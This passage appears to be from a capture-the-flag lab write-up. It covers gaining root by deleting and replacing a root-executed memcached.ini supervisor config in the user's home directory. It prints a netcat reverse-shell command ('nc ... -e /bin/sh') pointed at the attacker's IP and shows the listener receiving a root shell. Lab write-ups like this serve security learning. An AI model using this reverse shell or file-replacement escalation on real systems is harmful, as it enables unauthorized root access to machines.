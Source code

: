 ```
drwxr-sr-x    4 professo professo      4096 Sep 18 19:04 .
drwxr-xr-x    7 root     root          4096 Feb 16  2019 ..
lrwxrwxrwx    1 root     professo         9 Nov  6  2018 .ash_history -> /dev/null
drwx------    2 professo professo      4096 Jan 31  2019 .ssh
-rw-r--r--    1 root     root            88 Jan 29  2019 memcached.ini
-rw-r-----    1 root     nobody         434 Jan 29  2019 memcached.js
drwxr-sr-x    9 root     professo      4096 Jan 29  2019 node_modules
```
I cant read the <b>memcached.js</b> but I can read the <b>memcached.ini</b> file.
```
cat memcached.ini
[program:memcached]
command = sudo -u nobody /usr/bin/node /home/professor/memcached.js
```
This file has the same command that is being executed in the process. This tells me that the cron job is executing anything in this file as root. My first thought was I need to edit the <b>memcached.ini</b> file to put in a reverse shell to give me root but I saw that I don't have write permissions. After sometime had passed, I had realized I needed to go back to the basics. Even though the file is owned by root, I can still delete the file because it is in our home directory. All I need to do is replace it with a file of our own with the same name to give us a root shell
```
# rm memcached.ini
rm: remove 'memcached.ini'? y
```
Make sure the new file contains something like this
```
[program:memcached]
command = nc 10.10.14.21 9000 -e /bin/sh
```
Now set up a <b>nc</b> listener and wait for the shell to spawn
```
# nc -lvnp 9000
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::9000
Ncat: Listening on 0.0.0.0:9000
Ncat: Connection from 10.10.10.131.
Ncat: Connection from 10.10.10.131:33131.

whoami
root
```
So now you can grab the root flag
<br><br><br>
